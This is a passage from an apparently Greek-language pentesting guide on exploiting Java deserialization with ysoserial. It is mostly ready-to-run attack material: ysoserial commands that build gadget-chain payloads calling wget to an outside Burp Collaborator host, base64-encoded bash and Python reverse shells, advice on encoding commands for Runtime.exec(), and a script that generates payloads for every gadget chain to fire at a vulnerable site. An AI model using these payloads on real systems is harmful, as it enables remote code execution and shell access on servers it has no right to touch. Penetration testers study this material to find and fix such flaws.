 ```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```
Όταν δημιουργείτε ένα payload για **java.lang.Runtime.exec()** δεν **μπορείτε να χρησιμοποιήσετε ειδικούς χαρακτήρες** όπως ">" ή "|" για να ανακατευθύνετε την έξοδο μιας εκτέλεσης, "$()" για να εκτελέσετε εντολές ή ακόμη και **να περάσετε παραμέτρους** σε μια εντολή χωρισμένες με **κενά** (μπορείτε να κάνετε `echo -n "hello world"` αλλά δεν μπορείτε να κάνετε `python2 -c 'print "Hello world"'`). Για να κωδικοποιήσετε σωστά το payload μπορείτε να [χρησιμοποιήσετε αυτή τη σελίδα](http://www.jackson-t.ca/runtime-exec-payloads.html).

Μη διστάσετε να χρησιμοποιήσετε το επόμενο σενάριο για να δημιουργήσετε **όλα τα πιθανά payloads εκτέλεσης κώδικα** για Windows και Linux και στη συνέχεια να τα δοκιμάσετε στη ευάλωτη ιστοσελίδα:
```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
for payload in payloads:
final = cmd.replace('REPLACE', payload)
print 'Generating ' + payload + ' for ' + name + '...'
command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
result = command.read()
command.close()
encoded = base64.b64encode(result)
if encoded != "":
open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```
#### serialkillerbypassgadgets
